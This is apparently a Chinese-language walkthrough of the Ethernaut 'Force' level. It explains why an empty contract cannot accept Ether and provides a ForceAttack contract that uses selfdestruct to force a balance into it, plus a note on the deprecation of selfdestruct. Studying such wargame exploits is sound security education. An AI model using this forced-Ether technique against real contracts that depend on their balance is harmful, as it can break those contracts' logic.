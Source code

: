 # 7. Force
### 原题
```
有些合约就是拒绝你的付款,就是这么任性 ¯\_(ツ)_/¯
这一关的目标是使合约的余额大于0
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
### 分析
上面的合约果然就是这么任性，什么都没写，是不会写，还是不会写...\
如果给他付款，他没有任何可接收付款的方法。\
没有receive() payable{}\
也没有fallback() payable{}。\
就像老农卖菜，他没有二维码，你没有现金，这个交易怎么做。\
合约上有个自毁方法，销毁自己，把余额全部转给指定账户，这个账户强行接受转账。\
这个有点像家族继承，一人升天，不管是国内的正房，还是国外的私生，\
都给我接受一笔遗产继承，无条件！\
那么我们也来扮演个创世主，创造一个有钱的主，来个死后瓜分遗产的故事吧：）
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
  address force;

  constructor(address _force) payable {
    force = _force;
  }

  function attack() public  payable {
    
     address payable f = payable(force);

     selfdestruct(f);
  }

  receive() external payable { }
  fallback() external payable { }
}
```
### 注意
Warning: "selfdestruct" has been deprecated. Note that, starting from the Cancun hard fork, the underlying opcode no longer deletes the code and data associated with an account and only transfers its Ether to the beneficiary, unless executed in the same transaction in which the contract was created (see EIP-6780). Any use in newly deployed contracts is strongly discouraged even if the new behavior is taken into account. Future changes to the EVM might further reduce the functionality of the opcode.
大家自己翻译看看，大致就是不再推荐使用"selfdestruct"了，在后期的EVM版本中会逐步限制或者减少"selfdestruct"的功能。

### 总结
如果是合约里有依赖使用“address(this).balance > 0”，那这个破解方法就很有作用了。